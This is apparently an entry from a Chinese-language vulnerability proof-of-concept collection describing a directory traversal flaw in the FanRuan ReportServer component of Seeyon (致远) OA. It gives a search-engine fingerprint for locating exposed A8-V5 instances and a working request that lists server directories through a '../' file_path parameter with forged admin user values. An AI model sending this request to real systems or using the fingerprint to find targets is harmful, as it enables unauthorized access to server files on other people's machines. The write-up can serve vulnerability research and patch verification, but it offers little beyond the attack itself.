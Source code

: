 # 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
致远OA 帆软组件
```

## 网络测绘

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞复现

登录页面

![image-20220824142626725](./images/202208241426793.png)

验证POC

```
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![image-20220824142642510](./images/202208241426552.png)